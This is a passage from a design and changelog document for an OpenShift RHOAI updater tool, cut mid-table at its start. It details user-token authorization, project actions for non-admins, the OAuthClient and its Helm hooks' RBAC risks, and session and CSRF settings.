| Whether a component is on, at the newest served version that converts | DataScienceClusters `list` (`ReadFirstDSC`: a version whose conversion webhook fails is skipped) | pipeline server and MLflow setup (`SetupComponentBlock`), workbench setup/start/delete, playground setup |
| Whether the control plane is hosted | Infrastructure `cluster` `get`, ValidatingWebhookConfigurations `list` (`ReadControlPlane`) | the internal registry's pull copy, pull advice |
| The dashboard's address | Dashboard component CRs `list`, Route `rhods-dashboard` `get` | playground, MLflow samples' links |
| MLflow's address and readiness | MLflow `mlflow` `get` | MLflow samples |
| The gen-ai backend's state | Deployment `gen-ai-ui` `get` | playground setup |
| Whether a project with users' records still exists | Namespace `get` (`record.ProjectExists`) | the records caps of project actions (only counted, never shown) |

`types.ProjectFacts` (the applications namespace, the DataScienceCluster's components with state and readiness, hosted or not) is the fixed answer for a project action, read only through the facts client (`ReadProjectFacts`; a new field is a reviewed change); what could not be read is named by a fixed code, never the read's text. Nothing calls `ReadProjectFacts` yet: the project actions' gate and capabilities (design branch B3) will.

- A failed fact read reaches the user and the log with the fact, its HTTP status and a fixed category only, never the API server's text (`kube.FactReadProblem`, `kube.LogFactReadFailure`, `TestFactReadErrorsShowNoServerText`); a not-ready playground operator is reported without the DataScienceCluster's condition message.
- The facts client's requests are pinned by resource and name (`TestFactsRequestsArePinned`: get Namespace (by name, for the records caps), get Deployment `gen-ai-ui`, Infrastructure `cluster`, MLflow `mlflow`, Route `rhods-dashboard`; list ValidatingWebhookConfigurations, Dashboard component CRs, DataScienceClusters, DSCInitializations), with no Secret, no namespace list and nothing of MaaS: a new fact is a reviewed change of that list.

- A component check refuses the setup (`prerequisites_unknown`, with the HTTP status only), for admins too, when the DataScienceCluster cannot be read; before, it blocked nothing. `ReadFirstDSC` moves on to the next served version only for a version that is not served (404) or whose objects the conversion webhook cannot convert (500, or the watch cache's 429, naming the webhook; its Retry-After is not waited for); any other error stops the read (`TestDSCReadFallbackMovesOnOnlyForConversionFailures`).
- The MLflow samples check the project with the projects API and the user's token (`IsUserDSProject`) before the SA reads MLflow.
- RBAC: every function `c.Facts()` is passed to is a root of the SA's scan, also when only a change calls it, so `TestTemplateRBACCoversEveryServiceAccountCall` proves the template already grants each read; `TestFactsClientOnlyReads` proves that what they reach makes only get/list/watch requests and never calls `BearerToken` or `TokenKey`, and that every write is refused at run time. The SA gains no permission, `deploy/template.yaml` and `rbac-requests.golden` are unchanged.

### Errors

A 403 answered to the user's own token on a read is `forbidden_for_user` ("your OpenShift account may not see this"), never `forbidden` and never the "re-apply the template / make upgrade" hint (`HTTPStatusForError`, `templateHint`, `deniedReadHint`; `TestUserReadForbiddenIsTheUsers`). A 403 to a change is `forbidden`: the user's RBAC refused the change (`errorCodeFromK8sErr`, `operationErrorStatus`).

### RBAC

The SA gains no permission. User-token reads are their own category in the RBAC coverage test (`rbacUserTokenReads`), and the access reviews the gen-ai API and MLflow make for the status reads are no longer SA requests (`userTokenReviewRequests`). The SA lost what only those reads needed: `get` on the samples' `mlflow.kubeflow.org` names (experiments, registeredmodels, mcpservers, skills), `get` ConfigMap `gen-ai-aa-custom-model-endpoints`, and `get` on InferenceServices (`list` stays for Diagnostics); `TestUserTokenReviewsAreNotTheServiceAccounts` keeps them out. Kept by the scan's over-approximation (shared helpers it cannot tell apart by token): `get` OGXServer `lsd-genai-playground` (read through `getServed`, now only with users' tokens).

### Not verified (live checks pending)

The four personas of the design (a cluster-admin, a `rhods-admins` member who is not one, a project admin, a user with no project) on a test instance: every page and GET route per persona, no other user's names or projects. In particular: whether project `view`/`edit` include `list ogxservers` (the gen-ai API's review; a refusal shows as the playground's API problem), and the projects API's answer for each persona.

## Project actions for non-admins (5.0.0)

The design and the owner's decisions: recipes-handoff/env-features/non-admin-design-for-approval.md (branch B3).
Template revision unchanged: the ServiceAccount gains nothing (`deploy/template.yaml` and `deploy/rbac-gitops.yaml` are unchanged).
This narrows per-user views decision 2 ("changing things stays cluster-admin only") to cluster-scoped work.

### Who may change what

Cluster changes still need the cluster-admin gate (`*`/`*`/`*`, `mutationPermission`). Project actions (`cluster.ProjectActions`, routes in `projectActionRoutes`) run for any signed-in user in one of their own data science projects (the projects API with their token) when an access review with their token allows every request the action makes. Admins skip the review: their `*` rule covers every request.

| Action | Users who are not cluster-admins |
|---|---|
| Workbench: set up, start, stop, delete, delete its kept storage | yes |
| Playground: set up, delete | yes |
| MLflow samples: add, remove | yes |
| MLflow demo: regenerate | no (a cluster-admin's) |
| Everything else (project S3, models, pipeline servers, recipes, cluster parts) | no; later branches of the design |

A project user's workbench setup does not write the internal registry's copy of the pull secret (a Secret in RHOAI's applications namespace); on a hosted control plane it says that a cluster-admin makes it. A project user's MLflow demo add does not patch the cluster-wide MLflow CR's old memory limit; it says that a cluster-admin's add removes it.

### The gate (`withProjectMutationAuth`)

| # | Check | Token | Class |
|---|---|---|---|
| 1 | identity (`users/~`) | user's | b |
| 2 | body validated before any lock | n/a | b |
| 3 | sign-in can carry the change (`sessionProblem`) | user's | b |
| 4 | role (`*`/`*`/`*`); admin skips 5-7 | user's | b |
| 5 | the action is one users may run (403 `admin_only` otherwise) | n/a | b |
| 6 | the project is one of the user's (`IsUserDSProject`); a project that does not exist gets the same 403 `forbidden_for_user` and no ServiceAccount read is made before it | user's | b |
| 7 | rate limit (before any review, so a burst of requests is not a burst of reviews) | n/a | b |
| 8 | prerequisites from the facts (`ProjectFeatureBlock`: the component is on; an unreadable DataScienceCluster refuses), before the preflight, so a component that is off says so instead of asking for a role | SA (facts) | c |
| 9 | preflight: one SelfSubjectAccessReview per request of the action (at most 8 at once per call, 32 in the process), from the RBAC scan (`TestProjectActionPreflightMatchesTheScan`) and the hand lists below; a conditional request only where the action makes it (the workbench's LocalQueues: Kueue-managed project and Kueue available, `workbench.QueuesNeeded`); a review that fails refuses (503), a denial refuses with the full list and who can grant each (403 `missing_permissions`), before any write. The decision is `status.allowed`; an `evaluationError` beside it is logged, never returned | user's | a (a copy the API server also enforces, kept so a partial right cannot leave a half-done change) |
| 10 | the project's UID (read with the user's token), the shutdown gate, the project's lock; a cluster-admin's MLflow samples action takes the cluster lock instead (it may remove the old memory limit from the shared MLflow CR, which restarts MLflow for every project) | user's / SA records | b |

Every refusal says that nothing was changed, and names only an HTTP status or a category when a read failed: never the API server's, the authorizer's or the ServiceAccount's words. Logs of project actions name no user (the activity record keeps who did what). `GET /api/resources/projects/capabilities?project=` runs the same checks through the same functions (`projectActionVerdicts`, `projectStartProblem`), advisory, cached a minute by token hash and project, concurrent identical reads sharing one set of reviews; a failure counts only for the actions it concerns (an applications namespace that cannot be read refuses only the actions that read there).

A user's MLflow demo Add runs only where the demo's experiment does not exist: on an existing one the generator brings its data up to date or resets it, which replaces it (Regenerate, a cluster-admin's). An Add's preflight also reviews what the sample's remove path needs, since a refused add rolls back through it. The golden file's `project action requests` section lists each action's requests, with the namespace each goes to (`project`, RHOAI's applications namespace `apps`, or a cluster-scoped read every user may make) and where the row comes from (`scan`, `gen-ai`, `mlflow`).

### Requests made by platform services

The dashboard's gen-ai API (Playground) and MLflow (samples) make Kubernetes requests or access reviews with the user's token. They are listed by hand with their source at a pinned ref (`features.GenAIRequests`: gen-ai `token_k8s_client.go` at odh-dashboard `rhoai-3.6` `efd01a3`; `mlflow.AuthRules`: mlflow-kubernetes-plugins v2.1.1 (9694e137) `rules_base.py`, shared with the tests' MLflow fake) and preflighted like the rest (`TestHandListsMatchPinnedSource`, `TestMLflowRuleActionsMatchTheFake`). A refusal from either service stops the action and removes what it created: the gen-ai API removes its own ConfigMaps and the tool drops its record of the request (`TestPlaygroundGenAI403IsACleanRefusal`); a sample absent before an add is removed again by its own remove path (`TestMLflowSamples403IsACleanRefusal`).

### Locks and busy answers

A project action holds its project's lock (B1's lock table: a key of the operation ConfigMap), admins' too. A project action is refused while a cluster operation runs and the reverse; one project action per user; 20 at once. A user's refusal names no other user: "A cluster operation is running since HH:MM UTC", "An action (<label>) is running in this project since HH:MM UTC", or their own action by its label and project.

### Activity and actor names

`GET /api/activity` is per role: cluster-admins see every entry; a user sees only their own, filtered on the server by the identity resolved from their token (never `X-Forwarded-User`; no identity, no entries). Lock entries and ownership records hold user names; only cluster-admins and admins of the updater's namespace can read those ConfigMaps.

### Records caps

Entries a project user's setup adds to the snapshot ConfigMap (`workbenches`, `playgrounds`) carry `actorRole: user` and the project's namespace UID (`projectUID`): the caps count projects by UID, so a project deleted and made again under its name is another one. At most 100 projects hold users' entries, at most 10 of them one user's, and a user's entry is at most 2 KiB. Every write of a user's entry is admitted inside the per-pod critical section of that write (`record.AdmitUserEntry` in `record.UpdateSnapshot`), a new entry and one taken over from a cluster-admin or another user alike; the setup also checks early, before anything is made, and a refusal at write time deletes what was made (`records_full`). An entry whose project no longer exists, or now has another UID, is not counted (the facts client's Namespace `get`). Entries without `actorRole` (written before, all by cluster-admins) and admins' entries are outside both caps. Read-change-write cycles of the snapshot keys are serialized per pod (`record.UpdateSnapshot`), since project actions in different projects run at once.

### Local development

`DEV_ROLE=user` (dev mode without a ServiceAccount token only) turns off the developer's cluster-admin bypass of the mutation gate and the sign-in check, so a non-admin's bearer token takes the non-admin path, preflight included.

### RBAC

The golden's `project action requests` section lists the gate's own user-token requests and, per action, the scan's requests with each one's namespace class; a scanned request in a literal namespace other than the project's fails the test. No new row in the golden's requests: the preflight's access reviews and the project's namespace UID read are user-token call sites (excluded), the records caps' Namespace `get` is an existing SA row. The project actions' own requests are already in the golden (admins' paths).

### Not verified (live checks pending)

The per-persona live pass of the design (section 9): project admin, editor, viewer, an `rhods-admins` member without a project binding, a user with nothing, and a cluster-admin as the control; each action allowed or refused as the table says, with nothing written on a refusal; whether project `edit` includes the gen-ai API's and MLflow's requests on RHOAI 3.6 and 3.7 (the hand lists' assumption); a role revoked mid-action.

## Sign-in and access policy (4.0.0)

### Authentication and authorization flow

1. The browser opens the Route. oauth-proxy runs the OpenShift OAuth flow through the install's own **OAuthClient `<APP_NAME>-<NAMESPACE>`** (`grantMethod: auto`, so no "Authorize Access" page; one redirect URI, `https://<Route host>/oauth/callback`; `scopeRestrictions` exactly `user:full`) and requests `--scope=user:full`. It then checks the SAR gate above. Before 4.0.0 the SA was the OAuth client: the OAuth server allows an SA client only `user:info`, `user:check-access`, the list-projects scopes and roles in the SA's own namespace (library-go `oauthclientregistry.go` `getScopeRestrictionsFor`), so its session token could identify the user but never act. **The Helm chart's gitops profile keeps that sign-in** (`--openshift-service-account`, `--scope=user:info user:check-access`, the SA's `oauth-redirectreference` annotation; no OAuthClient, no client Secret, no hook with a right on OAuthClients; [GITOPS §11](docs/GITOPS.md#sign-in-in-the-gitops-profile)): nothing in that profile acts with the user's token (step 6), so its users' session cookies carry a token that cannot change the cluster, and the app never asks them to sign in again for the scope (`TestGitOpsProfileWorksWithAScopedSignIn`). `install.sh` always deploys the full profile.
2. oauth-proxy forwards the request to the app on `127.0.0.1:8080` with `X-Forwarded-Access-Token` (the user's OAuth token from its own session) and `X-Forwarded-User`.
3. The app resolves the user from the token (`GET user.openshift.io/v1/users/~`, cached for 1 minute per token). `X-Forwarded-User` is not trusted for identity. Every API request is authenticated this way, `/api/pageview` included.
4. Every cluster-changing request (every non-GET route except `POST /api/pageview`, including the Update dry run) also runs a SubjectAccessReview **with the user's token** (`authorization.openshift.io` SAR, `scopes: []`) for verb `*`, resource `*`, group `*`, cluster-wide: the cluster-admin role's own rule. A denied user gets 403 "Read-only access". If the review cannot run, 503 and nothing changes. `TestEveryNonGetRouteIsGated` checks that every route is gated.
5. **The sign-in must be able to carry the change** (4.0.0, `pkg/api` `sessionProblem`). The app reads the user's own OAuth access token object with that token (`GET oauth.openshift.io/v1/useroauthaccesstokens/sha256~<base64url(sha256(token))>`, the API server's own lookup name; every OAuth-signed-in user may read their own, ClusterRole `system:openshift:useroauthaccesstoken-manager`). It refuses with 401 `sign_in_again` ("Log out and log in again"), before anything changes, when the token lacks `user:full` or may not read its own object (a session from before 4.0.0: the cookie survives the upgrade, its token cannot act), or when it expires sooner than the change may take (the 15-minute operation deadline, the restore after a failure and 5 minutes). A rejected token is 401 `session_expired`. When the object cannot be read for another reason (not found, the API unreachable), the change goes ahead and the reason is logged: the API server still checks the token on every request, and a 401 mid-operation stops the operation with "Log out and log in again, then check what the operation changed". `GET /api/user/permissions` runs the same check, so the UI says why changes are off before the user tries.
6. Only then does the app act, **with the user's token** (`cluster.NewUserClient`). The app's own records (activity log, snapshot, the operation lease and marker, which outlive the request) use a separate SA client (`Client.bookkeeping()`, `TestBookkeepingUsesTheServiceAccount`), and the few cluster-wide facts a change needs (RHOAI's namespaces, component states, the control plane, the dashboard's and MLflow's addresses) are read with a read-only copy of it (`Client.Facts()`, see "Cluster facts of a change"). In the gitops profile, Update acts with the SA: its admission policy (`deploy/rbac-gitops.yaml`) matches only the SA's username, so a user-token write would bypass it.

Token rules (pkg/api/identity.go, auth_handlers.go):

- In the cluster, a request that carries `Authorization: Bearer` is refused with 401. oauth-proxy never forwards a client's bearer token, so such a request did not come through it. The `Authorization: Basic` header that oauth-proxy itself sets (`--pass-basic-auth`, default true) is ignored, not refused.
- Bearer tokens are accepted only with `DEV_MODE=true` (local development, no proxy).
- The template must not add `--openshift-delegate-urls` or `--pass-user-bearer-token` to oauth-proxy, because both accept client tokens. `TestOAuthProxyForwardsOnlyItsOwnSessionToken` pins this; `TestTemplateOAuthProxySignsInThroughTheOAuthClient` pins the client, the scope and that `--cookie-refresh` stays off; `scripts/test-chart.sh` pins the sign-in of both chart profiles.
- The user's token is never logged, stored, put in an error, a streamed step, the activity log, the operation record or the lease (`TestUserTokenIsNeverLoggedOrEchoed`). It lives in the request and in the operation's client, in memory, until the operation ends.

### Authorization checks (4.0.0)

Since every change runs with the user's own token, the API server is the enforcement point for changes: it checks each request against the user's RBAC. The backend is a thin layer over it that adds only the app's own policy. This is the list of every authorization-like check, in three classes: **(a)** a copy of what the API server now enforces for user-token calls; **(b)** the app's own user-safety or product policy, which the API server does not know about; **(c)** the gate in front of reads made with the ServiceAccount's token, which the API server checks against the SA, not the user.

**Access policy of 4.0.0 (replaced in 5.0.0 by the [per-user views](#per-user-views-500)).** Whoever passed the sign-in gate (oauth-proxy `--openshift-sar`: `list pods` in `redhat-ods-operator`) sees every page read-only; those reads use the ServiceAccount's token. Only cluster-admins change things, with their own token. The ServiceAccount's read path and the gate are unchanged in 4.0.0. Pages read with each user's own token came in 5.0.0; `TestOAuthProxySignInGateIsRHOAIsAllowedGroups` pins the new gate.

#### Backend

| # | Check | Token | What it checks / why | Class | 4.0.0 cleanup |
|---|---|---|---|---|---|
| 1 | Sign-in gate (oauth-proxy `--openshift-sar`) | user's (oauth-proxy) | `list pods` in `redhat-ods-operator`; who may open the UI at all (5.0.0: `get` `auths.services.platform.opendatahub.io`, RHOAI's allowed groups) | c | kept, now pinned by a test |
| 2 | `requestUser` / `authenticate` (`pkg/api/identity.go`) | user's | `users/~` with the token, cached 1 min; `X-Forwarded-User` not trusted; a bearer token outside `DEV_MODE` is refused (it did not come through oauth-proxy) | b | kept |
| 3 | Cluster-admin gate (`mutationPermission`, `mutationRequirement`; `withMutationAuth`, `withGitOpsMutationAuth`) | user's | `authorization.openshift.io` SAR for `*`/`*`/`*`, cluster-wide. The app's policy: only cluster-admins start a change, before anything is touched, so a user with partial rights cannot leave a half-done change. The API server would refuse the individual requests, but only one by one, mid-change | b | kept; its comment no longer says the SA acts for the user |
| 4 | Sign-in check (`sessionProblem`) | user's | the token has `user:full` and outlives the operation, before anything changes | b | kept; unused `SessionToken` fields (`InactivityTimeoutSeconds`, `ClientName`) removed |
| 5 | `GET /api/user/permissions` (`HandleUserPermissions`) | user's | runs 3 and 4 so the UI can say why changes are off | b (UI hint) | kept |
| 6 | Per-user rate limit (`mutationLimiter`) | n/a | one accepted change per user and endpoint per 30 s (double clicks, duplicate tabs); a change that did not go through gives the slot back only when its client sent nothing that may have changed the cluster (`cluster.TrackChanges`) | b | kept |
| 7 | Shutdown gate (`mutations.begin`), 15-minute operation deadline | n/a | no change starts while the pod drains; bounded lifetime | b | kept |
| 8 | Cluster lock, cross-pod lease and operation marker (`lockCluster`, `leases`, `markers`) | SA (`bookkeeping()`) | one change at a time across pods; fails closed (`lock_unavailable`) when the lease cannot be read or written; cluster and project locks exclude each other when a lock is taken (not re-checked while it is held) | b | kept |
| 9 | Admin reads (`withAdminRead`: S3 credentials, MaaS groups check, DSC plan) | gate: user's; read: SA | only a cluster-admin gets an answer that the SA reads (a credential, every project's use of a component) | c | kept (4.0.0 policy above) |
| 10 | Gitops profile reads (`withGitOpsAdmin`) and route allow-list (`refusedInGitOpsProfile`) | gate: user's; read: SA | in the gitops profile only cluster-admins see the SA's reads; every other route answers 403 before any call | c | kept |
| 11 | Gitops Update on the SA (`withGitOpsMutationAuth`) + admission policy check (`CheckGitOpsAdmissionPolicy`) | SA | the ValidatingAdmissionPolicy matches only the SA's username, so Update must use the SA; the app refuses Update when the policy differs from the release's | b | kept |
| 12 | Gitops diagnostics: the SA cannot read Secrets (`checkServiceAccountSecretAccess`, SelfSubjectAccessReview) | SA | a posture check of the SA's own RBAC, not a gate | c | kept |
| 13 | CSRF and request hygiene (`RequireJSONForMutations`, dev-mode Host/Origin check, CSP and security headers, static path checks) | n/a | cross-site requests cannot change anything | b | kept |
| 14 | Input validation (image, namespace, channel, FBC image, DSC path and state, plan actions, clean-up list bounds) | n/a | allow-lists at the boundary; names a request may not choose | b | kept |
| 15 | Ownership: labels, field managers and recorded UIDs; `updateToolObject` (ownership, field-ownership upgrade, `resourceVersion` guard); `deleteWithUID`; `foreignObjectError` (`not_managed`) | user's (change) / SA (prune job) | the tool changes or deletes only what it made; RBAC cannot express "objects this tool made" | b | kept |
| 16 | In-use and fail-closed refusals (storage used by a pipeline server, gateway used by a model, MaaS in use, DSC disable checks, downgrade guard, catalog validation, install safety; "cannot check, so nothing was changed") | user's (change) | refuse a change that would break something else; fail closed when it cannot be checked | b | kept |
| 17 | Plan tokens (DSC hard reset: `pendingHardResetToken`; the plan's confirmation) | n/a | "Finish" applies only the plan the user confirmed | b | kept |
| 18 | Server-side dry runs before multi-step changes | user's | the API server itself, asked before the first write so a refusal changes nothing | b (not a copy: it is the API server's answer) | kept |
| 19 | Gen-ai call allowlists (`genAICallAllowed` for the SA, `genAIUserCallAllowed` for the user) | per client | which dashboard gen-ai calls may carry which token, so no token reaches the MaaS gateway by the tool's choice (above) | b | kept. Removed the separately chosen gen-ai token (`genAIToken`, `genAIUserToken` and a `token` parameter through `GetPlaygroundStatus`, `RunPlayground`, `TeardownPlayground`, `CleanUp`): it always equalled the client's own token, so `playgroundAPI` now takes the client's token and `asUser` |
| 20 | A model's own token for "Can it be called?" (recorded Secret UID, type, `https` only, no redirects) | user's (reads the Secret) | the token goes only to that model's address | b | kept |
| 21 | Data science project check before status reads (playground, MLflow samples) | SA (5.0.0: the user's, projects API) | a request may not make the SA read (or send its token to MLflow for) any namespace; since 5.0.0 these reads use the user's token, and the project must be one of the user's | c | kept |
| 22 | Error explanations of a 403: `templateHint` ("the updater's ServiceAccount is not allowed ... run `make upgrade`") | n/a | **a: SA-era wording.** Since 4.0.0 a 403 during a change is about the user's RBAC; `K8sError` already says so (`UserForbiddenMessage`) | a | `templateHint` now adds its hint only to a 403 answered to the SA (`TestTemplateHintOnlyForTheServiceAccountsRefusals`); same rule as `deniedHint` for MLflow |

#### Tests that pin the split

| Test | Checks | Class | Cleanup |
|---|---|---|---|
| `TestMutationPathsActWithTheUsersToken` | no change reaches the SA's token | b (keeps the SA read-mostly) | kept; `saTokenSources` lost the removed `genAIToken` and each entry must now exist in the graph. A change's read-only facts reads (`Client.Facts()`) are not a token source: `TestFactsClientOnlyReads` and `TestFactsRequestsArePinned` cover them |
| `TestTemplateRBACCoversEveryServiceAccountCall`, `TestTemplateRBACGrantsNothingTheCodeDoesNotUse`, `TestServiceAccountWritesAreNamedOrItsOwnRecords` | the template grants exactly the SA's reads, records and the prune job's named writes | b | kept: they found no unused SA rule (unchanged: the template's rules are what the SA's code paths use) |
| `genAIDashboardRequests` (the gen-ai API's requests with the caller's token) | listed Set up's writes too (create OGXServers and ConfigMaps, ...) | **a: data for rules the template no longer has** | now only the status's reads, which the SA needs; `playgroundStatusKeys` removed |
| Samples fake (`templateAllow`, `userAllow`) | the status's MLflow reviews against the template, a change's against the user | b | kept; its header comment no longer says add and remove prove the template |
| `TestEveryServiceAccountCallIsReachable` (full scan) | every function with an API call is reachable from `main`; it resolves every call's path, user-token calls included | b (dead-code detector) | kept; this is why paths stay written out by name in the code |

#### Frontend

`canMutate` (from `GET /api/user/permissions`), `useMutationBlocker`, the permission banners and the gitops "cluster-admins only" screen are UI only: they disable buttons and explain why. Enforcement is rows 3 and 4 above and the API server.

#### Counts

22 backend checks: (a) 1 (row 22), (b) 16, (c) 5; plus 5 test-side items, 1 of them (a). No runtime pre-flight access review per resource was left from before 4.0.0 (the migration had replaced them with the user's token); what was left was token plumbing, wording and test data, removed above. Not changed: the cluster-admin gate (the app's policy, not duplicated: rows 5 and 9 reuse the same function), every (b) check, the SA's read path and gate (the 4.0.0 policy above), and the SA's RBAC (the coverage tests show every rule in use).

### The OAuthClient (4.0.0)

`install.sh` creates Secret `<APP_NAME>-oauth-client` (32 random alphanumerics, no trailing newline, kept on re-apply) and server-side applies OAuthClient `<APP_NAME>-<NAMESPACE>` after the Route exists and before the rollout; the secret goes to `oc` on stdin, never on a command line, and server-side apply keeps it out of a last-applied annotation. The client has:

- `grantMethod: auto`, one redirect URI `https://<Route host>/oauth/callback`;
- `scopeRestrictions: [{literals: [user:full]}]`: exactly what oauth-proxy requests, so a borrowed client id cannot ask for anything else;
- labels `app.kubernetes.io/instance`, `app.kubernetes.io/name: <APP_NAME>` and `rhoai-nightly-updater/namespace: <NAMESPACE>`. The name alone is ambiguous (app `a-b` in namespace `c` and app `a` in namespace `b-c` both make `a-b-c`), so deploy, upgrade, rollback and the chart's hooks apply over or delete a client of that name only when these labels name this install, or, without them (a client applied before them), when its only redirect URI is this install's Route. Otherwise they stop with the commands to remove a leftover, before anything changes; uninstall keeps another install's client and its sign-ins;
- no `ownerReference`. Test builds of 4.0.0 gave the client one to the install's Namespace, so that deleting the namespace would delete it; live-checked on OpenShift (ROSA HCP, RHOAI 3.6), it did not: the namespace was gone in about 20 seconds, and the client, with a correct ownerReference (Namespace name and UID), no finalizers, and list, watch and delete served, was still there more than 3 minutes later. The garbage collector does not collect OAuthClients there. Deploy, upgrade and the chart's PostSync hook remove an ownerReference such a build left (a merge patch after the apply).

**Deleting the namespace by hand** (`oc delete project`) **leaves the OAuthClient and its sign-ins** (live-checked). Remove them with `install.sh uninstall` (same `--app-name` and `--namespace`): it works after the namespace is gone and, live-checked, removed the client, its tokens, the ClusterRole and ClusterRoleBinding, the Roles in other namespaces and the ConsoleLink. Or by hand: `oc delete oauthclient <APP_NAME>-<NAMESPACE>` and `oc delete oauthaccesstokens --field-selector clientName=<APP_NAME>-<NAMESPACE>`. Until the client is deleted, whoever gets a Route with the freed host can receive sign-ins through it (the exposure above); until the tokens are revoked, each stays valid until it expires (at most 24 hours), held in the users' cookies.

Removal on every path the tool controls:

- `install.sh uninstall` deletes the OAuthClient first (no new sign-ins), then revokes the access tokens it issued (`oc delete oauthaccesstokens --field-selector clientName=...`): deleting a client does not invalidate them, the API server does not check that a token's client still exists. If the client cannot be read or deleted, uninstall stops before deleting anything else, so the namespace keeps the Route's host. When the revocation fails, uninstall still removes the rest and exits with the command to run.
- `make rollback` to a template from before 4.0.0 (the ServiceAccount signs in again) deletes the client and revokes its sign-ins once the rollout finished; it keeps Secret `<APP_NAME>-oauth-client` for a roll forward.
- Deleting the Argo CD Application with its resources runs the chart's PostDelete hook, below. Argo CD runs that hook on a deletion without its resources too; the hook then finds the app's Route still there, keeps the client and its sign-ins (the app still runs and its users sign in through it) and logs the commands for later.

The Helm chart does the same with hooks, in the full profile only (the gitops profile has no OAuthClient, above): a Sync hook Job creates the Secret, a PostSync hook Job applies the OAuthClient once the Route has a host (`deploy/chart/templates/oauth-client.yaml`), and a PostDelete hook Job deletes it and revokes its sign-ins when the Application is deleted with its resources (`oauth-client-removal.yaml`; it keeps them while Route `<APP_NAME>` exists, which a non-cascading deletion leaves; OpenShift GitOps 1.14 / Argo CD 2.12 or later: 2.10 and 2.11 panic on the hook's RBAC objects, so there `gitops.oauthClient.removeOnDelete: false` and the client is removed by hand; docs/GITOPS.md section 7). Argo CD does not track the Secret or the OAuthClient.

| Rule (the hooks' own ServiceAccounts, never the app's) | What it allows | Worst case if the hook's token leaks | Why nothing narrower works |
|---|---|---|---|
| Sync hook, Role in the app's namespace: Secrets `create`; `get` on `<APP_NAME>-oauth-client` | create the client Secret once | create a Secret in the app's namespace, while the hook runs | `create` cannot be limited by name |
| PostSync hook, Role: Route `<APP_NAME>` `get`; Secret `<APP_NAME>-oauth-client` `get` | read the host and the secret | read the client secret, which the app's namespace admins can read anyway | named |
| PostSync hook, ClusterRole `<APP_NAME>-<NAMESPACE>-oauthclient`: OAuthClients `create`; `get patch` on `<APP_NAME>-<NAMESPACE>` | create and update this install's OAuthClient (and drop a test build's ownerReference from it); no `delete` | register **any** OAuth client, for example one with `grantMethod: auto` and a redirect to an attacker's host: a token-phishing primitive, while the hook runs | `create` cannot be limited by name. The ServiceAccount, Role, ClusterRole and bindings are hooks with `hook-delete-policy: BeforeHookCreation,HookSucceeded,HookFailed`: they exist from their creation in the PostSync phase until the sync operation ends, not only while the Job runs (Argo CD deletes `HookSucceeded` hooks once the whole operation succeeded, and `HookFailed` ones when it fails: gitops-engine `pkg/sync/sync_context.go`); until 4.0.0's chart had `HookFailed`, a failed sync left them until the next sync. Meanwhile whoever can create pods in the app's namespace with that ServiceAccount (its admins) can use the right; the failed Job itself is kept for its log. With `gitops.oauthClient.enabled=false` no hook gets the rule and an admin creates both objects |
| PostDelete hook, Role `<APP_NAME>-oauthclient-removal`: `get` on Route `<APP_NAME>` | tell a non-cascading deletion (the Route is still there, the app runs) from a cascading one (Argo CD deleted it before running the hook) | read the Route's host, which is public | named |
| PostDelete hook, ClusterRole `<APP_NAME>-<NAMESPACE>-oauthclient-removal`: `get delete` on OAuthClient `<APP_NAME>-<NAMESPACE>`; OAuthAccessTokens `list delete` | delete this install's client and revoke its sign-ins | sign every user of the cluster out (delete any access token) and list token metadata (users, clients, scopes; an object's name is a hash of its token, not the token), from the hook's creation after the Application's deletion until Argo CD deletes the hooks | token names are hashes, so they cannot be named in advance; `oc delete --field-selector` lists, then deletes each. The RBAC objects carry `HookFailed`: after a failed run Argo CD 2.12 to 3.1 delete them with the Application (only the failed Job stays); 3.3 and later keep everything and run the Job again until it succeeds. If one is left anyway, `oc delete clusterrole,clusterrolebinding <APP_NAME>-<NAMESPACE>-oauthclient-removal` (docs/GITOPS.md section 7) |

**Not done: an admission policy on the PostSync hook's `create`.** A ValidatingAdmissionPolicy could limit OAuthClient writes by that ServiceAccount to the one name, `grantMethod: auto` and one `https://…/oauth/callback` URI, in the style of the gitops profile's policy. It does not fit here: OAuthClients are served by the aggregated oauth-apiserver, not by the kube-apiserver whose admission chain runs the cluster's ValidatingAdmissionPolicies, and whether oauth-apiserver evaluates them could not be verified without a cluster; and the full profile, the only one with the hook, supports OpenShift releases before 4.17, which lack `admissionregistration.k8s.io/v1` policies (the gitops profile requires 4.17 for this reason). The right lives only while the hook Job runs.

The app's ServiceAccount has no right on OAuthClients or OAuth tokens (`TestServiceAccountWritesAreNamedOrItsOwnRecords` and the RBAC coverage tests).

### Sessions and CSRF

- The cookie secret is in Secret `<APP_NAME>-proxy` (key `session_secret`), mounted with `--cookie-secret-file`. Re-applying the template keeps it, so sessions survive upgrades. `make deploy`/`make upgrade` create it once.
- Cookies use `--cookie-expire=23h`, below the default OAuth access-token lifetime (24h), and `SameSite=Lax; Secure; HttpOnly` (4.0.0; `Strict` before, as RHOAI's gateway proxy: opendatahub-operator `kube-auth-proxy-oauth-deployment.tmpl.yaml`). oauth-proxy gives its CSRF cookie the same attribute (openshift/oauth-proxy `oauthproxy.go` `makeCookie`), and its callback refuses without it (`OAuthCallback`). With `Strict`, the first sign-in through an identity provider on another site (Red Hat SSO on ROSA, any OIDC or GitHub login) ended in **403 Permission Denied: http: named cookie not present**, because the browser withheld the cookie on the redirect chain from that site; **Log In** then worked, as the OAuth server sent the browser straight back. `Lax` sends the cookies on top-level GET navigations from other sites too. That changes nothing an attacker can do: every state-changing `/api/` request is a POST that must be `Content-Type: application/json` (below), and no GET route changes state (`pkg/api/routes.go`: the GET handlers only read). An expired session shows a "Sign in again" banner. Since 4.0.0 the cookie carries the user's `user:full` token (encrypted with the cookie secret), and a change is refused with "Log out and log in again" when the token expires before the change could finish, or when the session is one from before 4.0.0 whose token cannot act.
- The Deployment's `revisionHistoryLimit` is 2. After a successful rollout, `make deploy`/`make upgrade` delete the app's old ReplicaSets: those created before the cookie Secret held the secret in plaintext env.
- State-changing `/api/` requests must be `Content-Type: application/json` (otherwise 415). A browser cannot send that cross-site without a CORS preflight, and the backend never grants one.
- **Log out** opens oauth-proxy's `/oauth/sign_out` (since 4.0.0; before, it opened `/oauth/sign_in`, which showed the sign-in page and kept the session). That clears the proxy's session cookie and shows the sign-in page. It does not end the OpenShift OAuth server's own login session, and the OAuth access token the cookie held stays valid until it expires (`--cookie-expire=23h`, below the 24h token lifetime): it is not revoked. So **Log in with OpenShift** signs the same user in again without a password while that session lasts. To end it, log out of the OpenShift web console too (it ends the OAuth server's session), or close the browser. oauth-proxy's `--logout-url` could send the browser on to the OAuth server's logout, but its address is cluster-specific (a template parameter install.sh would have to discover), so it is not set.
